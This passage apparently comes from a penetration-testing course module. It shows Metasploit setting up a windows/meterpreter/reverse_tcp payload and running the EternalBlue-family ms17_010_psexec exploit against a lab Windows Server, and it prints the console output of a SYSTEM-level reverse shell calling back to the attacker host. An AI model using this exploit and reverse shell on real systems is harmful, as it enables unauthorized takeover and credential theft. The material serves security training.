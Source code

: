 ```shell-session


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.12      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port
```

This time, we kept it simple and just used a `windows/meterpreter/reverse_tcp` payload. You can change this as you wish for a different shell type or obfuscate your attack more, as shown in the previous payloads sections. With our options set, let's give this a try and see if we land a shell.

4. Execute Attack, and Receive A Callback.

#### Execute Our Attack

  Infiltrating Windows

```shell-session
msf6 exploit(windows/smb/ms17_010_psexec) > exploit

[*] Started reverse TCP handler on 10.10.14.12:4444 
[*] 10.129.201.97:445 - Target OS: Windows Server 2016 Standard 14393
[*] 10.129.201.97:445 - Built a write-what-where primitive...
[+] 10.129.201.97:445 - Overwrite complete... SYSTEM session obtained!
[*] 10.129.201.97:445 - Selecting PowerShell target
[*] 10.129.201.97:445 - Executing the payload...
[+] 10.129.201.97:445 - Service start timed out, OK if running a command or non-service executable...
[*] Sending stage (175174 bytes) to 10.129.201.97
[*] Meterpreter session 1 opened (10.10.14.12:4444 -> 10.129.201.97:50215) at 2021-09-27 18:58:00 -0400

meterpreter > getuid

Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

Success! We have landed our exploit and gained a shell session. A `SYSTEM` level shell at that. As seen in the earlier MSF modules, now that we have an open session through Meterpreter, we are presented with the `meterpreter >` prompt. From here, we can utilize Meterpreter to run further commands to gather system information, steal user credentials, or use another post-exploitation module against the host. If you wish to interact with the host directly, you can also drop into an interactive shell session on the host from Meterpreter.

5. Identify the Native Shell.

#### Identify Our Shell

  Infiltrating Windows
